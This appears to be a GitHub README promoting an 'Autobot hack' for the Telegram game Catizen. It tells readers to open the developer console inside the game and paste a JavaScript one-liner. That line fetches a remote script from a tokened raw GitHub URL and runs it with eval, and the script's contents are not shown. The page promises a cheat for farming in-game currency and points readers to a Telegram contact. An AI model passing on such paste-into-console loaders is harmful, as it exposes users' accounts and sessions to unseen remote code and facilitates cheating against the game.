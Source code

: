 # Instructions on how to use the Autobot hack in the game Catizen
##### If you have any questions, please contact me on Telegram:
#

[![My Telegram](https://img.icons8.com/ios/50/000000/telegram.png)](https://t.me/rovie69)

#### 1. Open the desktop Telegram client.
#### 2. Go to Settings - Advanced - Experimental Settings.
#### 3. Scroll down, find the Enable webview expecting option, switch it on.
#### 4. Reload the Telegram client.
#### 5. Go to Catizen, click on the game field where the kitties are playing.
#### 6. Press the key combination Ctrl + Shift + i, the developer console will open.
#### 7. Allow input to the console: type something and send it to the console, the system will tell you what to type to allow input.
#### 8. Paste the code below and send
```javascript
var unixTime=Date.now(); var url='https://raw.githubusercontent.com/rahavitski/cats-stuff/main/Catizen-script-v1.1.js?token=GHSAT0AAAAAACQ2I2QLSVBWQ7COEMC4HVFMZQ643GA'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
```
#### 9. Wait a couple of seconds, go to the game, switch on Autobot and farm $CATS!

